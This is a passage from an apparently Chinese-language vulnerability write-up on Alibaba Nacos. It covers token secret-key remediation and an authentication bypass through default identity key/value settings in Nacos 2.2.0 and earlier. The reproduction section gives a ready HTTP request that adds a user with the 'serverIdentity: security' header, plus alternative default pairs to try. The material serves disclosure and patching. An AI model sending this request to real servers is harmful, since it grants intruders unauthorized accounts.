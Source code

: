 ### 漏洞修复

1. 修改生成 Token 的 secret.key，推荐自定义密钥时，将配置项设置为 Base64 编码的字符串，且原始密钥长度不得低于 32 字符。

```
#启用认证
nacos.core.auth.enabled=true
#生成 Token 的密钥
nacos.core.auth.plugin.nacos.token.secret.key=base64编码
```

2. 升级到2.2.0.1及之后版本。Nacos官方在2023.03.02发布了2.2.0.1，下载地址：https://github.com/alibaba/nacos/releases/tag/2.2.0.1，最新版本：https://github.com/alibaba/nacos/releases。

## 七、identity.key/value 默认值认证绕过

### 漏洞描述

当开启 Nacos 权限认证（nacos.core.auth.enabled=true）后，配置文件中存在默认值：

```
nacos.core.auth.server.identity.key=serverIdentity
nacos.core.auth.server.identity.value=security
```

该硬编码导致攻击者可以构造携带该 key 和 value 的请求，从而绕过权限认证。

### 漏洞影响

```
Nacos <= 2.2.0
```

### 漏洞复现

```
POST /v1/auth/users HTTP/1.1
serverIdentity: security

username=whoami&password=whoami
```

当开启 Nacos 权限认证（nacos.core.auth.enabled=true）后，必须填写 nacos.core.auth.server.identity.key 和 nacos.core.auth.server.identity.value 才能够正常启动。若 `serverIdentity: security` 无法绕过，可以尝试以下键值对：

```
官网示例中的键值对 example:example
```

```
搜索引擎解决方案中出现最多的键值对 test:test
```

### 漏洞修复

1. 配置自定义身份识别的 key（不可为空）和 value（不可为空）：
